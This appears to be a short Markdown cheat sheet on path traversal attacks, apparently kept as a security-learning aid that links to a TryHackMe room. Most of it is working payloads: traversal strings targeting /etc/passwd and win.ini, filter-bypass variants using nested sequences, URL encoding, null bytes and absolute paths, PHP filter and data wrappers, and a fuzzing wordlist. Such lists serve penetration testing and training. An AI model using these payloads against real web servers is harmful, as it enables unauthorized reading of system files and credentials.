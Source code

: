# Path Traversal Cheat Sheet
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
Sequence block bypass >> ....//....//....//....//etc/passwd
Sequence block bypass2 >> ..//..//..//..//etc/passwd
Encoding ../ >> %2e%2e%2f
Absolute path >> /var/www/images/../../../etc/passwd
Absolute path2 >> /var/www/html/..//..//..//etc/passwd
Using null byte >> ../../../etc/passwd%00.png
Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
Using Data wrappers >> data:text/plain,<?php phpinfo(); ?>
#### Wordlist
```txt
../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
../../../etc/passwd%00.php
..//..//..//..//etc/passwd%00.php
....//....//....//....//etc/passwd%00.php
/var/www/images/../../../etc/passwd%00.php
/var/www/images/..//..//..//..//etc/passwd%00.php
/var/www/images/....//....//....//....//etc/passwd%00.php
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
```
## To learn
https://tryhackme.com/r/room/filepathtraversal
